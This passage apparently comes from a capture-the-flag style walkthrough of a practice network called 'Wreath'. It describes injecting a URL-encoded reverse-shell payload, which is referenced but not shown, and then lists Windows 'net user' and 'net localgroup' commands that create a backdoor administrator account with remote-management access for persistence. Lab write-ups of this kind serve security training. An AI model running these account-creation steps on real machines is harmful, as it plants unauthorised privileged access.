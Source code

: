 Change the appropriate IP and Port then url encoded payload and inject this command. also start listener.

![](/Images/wreath/Screenshot-2021-04-07-155112-1024x171.png)

we have full access but when enumeration we saw RDP port is open if we create user with RDP access we can login using GUI.

```
net user munaz PASSWORD /add

net localgroup Administrators munaz /add

net localgroup "Remote Management Users" munaz /add
```

![](/Images/wreath/Screenshot-2021-04-07-155629.png)

